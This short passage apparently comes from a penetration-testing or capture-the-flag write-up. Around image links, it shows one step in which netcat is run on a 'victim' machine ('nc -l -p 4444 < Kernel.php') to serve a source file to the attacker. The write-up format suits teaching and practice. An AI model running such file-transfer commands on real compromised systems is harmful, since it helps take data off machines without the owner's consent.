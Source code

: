 ![](./IMG/47.png)

2. Using nc to trasfer it from victim to attack
- On victim
```
nc -l -p 4444 < Kernel.php
```

![](./IMG/48.png)
